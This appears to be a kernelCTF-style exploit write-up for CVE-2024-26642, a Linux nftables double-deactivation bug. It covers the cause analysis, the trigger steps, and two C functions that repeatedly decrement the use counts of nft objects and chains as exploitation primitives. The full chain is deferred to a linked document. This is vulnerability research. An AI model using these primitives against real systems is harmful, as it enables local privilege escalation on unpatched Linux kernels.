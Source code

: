 # Exploit detail about CVE-2024-26642
If you want to get some base information about CVE-2023-6817, please read [vulnerability.md](./vulnerability.md) first.

## Background
nftables is a netfilter project that aims to replace the existing {ip,ip6,arp,eb}tables framework, providing a new packet filtering framework for {ip,ip6}tables, a new userspace utility (nft) and A compatibility layer. It uses existing hooks, link tracking system, user space queuing component and netfilter logging subsystem.

It consists of three main components: kernel implementation, libnl netlink communication and nftables user space front-end. The kernel provides a netlink configuration interface and runtime rule set evaluation. libnl contains basic functions for communicating with the kernel. The nftables front end is for user interaction through nft.

nftables implements data packet filtering by using some components like `table`, `set`, `chain`, `rule`.

## Cause anaylysis

In the function nf_tables_deactivate_set, it does not set "set->dead = 1". This makes it possible to call nft_setelem_data_deactivate with a set element more than once by following this step:

1. Create a pipapo set with flag NFT_SET_TIMEOUT and NFT_SET_ANONYMOUS.
2. Create a set element of this pipapo set with flag NFTA_SET_ELEM_EXPIRATION.
3. Create a chain.
4. Create a rule with nft_lookup expr, which will bind the pipapo set we create in step 1.
5. Delete the chain

After you send these commands in a message list, when you reach step 5 `delete the chain`, the following call chain will occur:
```
nf_tables_delchain -> nft_delrule -> nft_rule_expr_deactivate -> (expr->ops->deactivate) -> nft_lookup_deactivate -> nf_tables_deactivate_set -> case NFT_TRANS_PREPARE: nft_map_deactivate
```
`nft_map_deactivate` will eventually call `nft_setelem_data_deactivate` for all set elements in the set.

But at the same time, after all commands are executed, nftable will also call `nf_tables_commit`, which triggers another call chain:

```
nf_tables_commit -> (set->ops->commit) -> nft_pipapo_commit -> pipapo_gc -> nft_pipapo_gc_deactivate -> nft_setelem_data_deactivate
```

Finally, `nft_setelem_data_deactivate` will be called for elements which are timed out in the pipapo set, which may result in multiple calls to `nft_setelem_data_deactivate` for the same set element.

## Triggering the vulnerability

It's easy to trigger it by following this steps:

- Create a pipapo set with flag NFT_SET_TIMEOUT and NFT_SET_ANONYMOUS.
- Create a set element of this pipapo set with flag NFTA_SET_ELEM_EXPIRATION.
- Create a chain.
- Create a rule with nft_lookup expr, which will bind the pipapo set we create in step 1.
- Delete the chain 


## Exploit it
The method of exploiting CVE-2024-26642 is exactly the same as that of exploiting CVE-2023-6817. If you want to learn how I exploit CVE-2023-6817, please read [here](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-6817_lts_cos/docs/exploit.md).The only difference is how to construct the two primitives.

## Primitive
### Primitive_0
I build a function named as `primitive_0` to change the nft_object->use by triggering the vulnerabiltiy:

```c
//make target_obj->use = target_obj->use - repeat_time
void primitive_0(struct nl_sock *socket, char *table, char *target_obj, int repeat_time){
    char *pad = malloc(0x100);
    memset(pad,0x41,0x100);
    int i,j;
    struct nlmsghdr **msg_list = malloc(sizeof(struct nlmsghdr *)*0x100);
    char *key = malloc(0x40);
    char *set_name = "set for primitive0";
    char *chain_name = "chain for primitive0";
    msg_list[0] = new_set_pipapo_for_timeout_with_anonymous_msg(table, set_name, NFT_OBJECT_CT_EXPECT);
    for(i=0;i<repeat_time;i++){
        *(uint64_t *)key = i;
        msg_list[i+1] = new_setelem_with_expiration_msg(table, set_name, pad, 0xc0, target_obj, key, 0x40, NULL, 0, 0,0x0100000000000000);
    }
    msg_list[repeat_time+1] = new_chain_msg(table, chain_name, 0);
    msg_list[repeat_time+2] = new_rule_lookup_for_chain_msg(table, chain_name, set_name, 0);
    msg_list[repeat_time+3] = del_chain_msg(table, chain_name);
    send_msg_list(socket, msg_list, repeat_time+4);

    free(msg_list);
    free(pad);
}
```

It will trigger the vulnerability as described above. In order to achieve the effect of executing "nft_object->use--" multiple times on the same nft_object, I created multiple set elements using the same nft_object at one time.

### Primitive_1
I build a function named as `primitive_1` to change the nft_chain->use by triggering the vulnerabiltiy:

```c
//make target_chain->use = target_chain->use - repeat_time
void primitive_1(struct nl_sock *socket, char *table, char *target_chain, int repeat_time){
    char *pad = malloc(0x100);
    memset(pad,0x41,0x100);
    int i,j;
    struct nlmsghdr **msg_list = malloc(sizeof(struct nlmsghdr *)*0x100);
    char *set_name = "set for primitive1";
    char *chain_name = "chain for primitive1";
    char *key = malloc(0x40);
    msg_list[0] = new_set_pipapo_for_timeout_and_chain_with_anonymous_msg(table, set_name, 0x40);
    for(i=0;i<repeat_time;i++){
        *(uint64_t *)key = i;
        msg_list[i+1] = new_setelem_with_chain_and_expiration_msg(table, set_name, pad, 0xc0, target_chain, key, 0x40, NULL, 0, 0,0x0100000000000000);
    }
    msg_list[repeat_time+1] = new_chain_msg(table, chain_name, 0);
    msg_list[repeat_time+2] = new_rule_lookup_for_chain_msg(table, chain_name, set_name, 1);
    msg_list[repeat_time+3] = del_chain_msg(table, chain_name);
    send_msg_list(socket, msg_list, repeat_time+4);

    free(msg_list);
    free(pad);
}
```
It will trigger the vulnerability as described above. In order to achieve the effect of executing "nft_chain->use--" multiple times on the same nft_object, I created multiple set elements using the same nft_chain at one time.


## Exploit
Because the exploit steps of CVE-2024-26642 is the same as CVE-2023-6817, please read [here](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-6817_lts_cos/docs/exploit.md).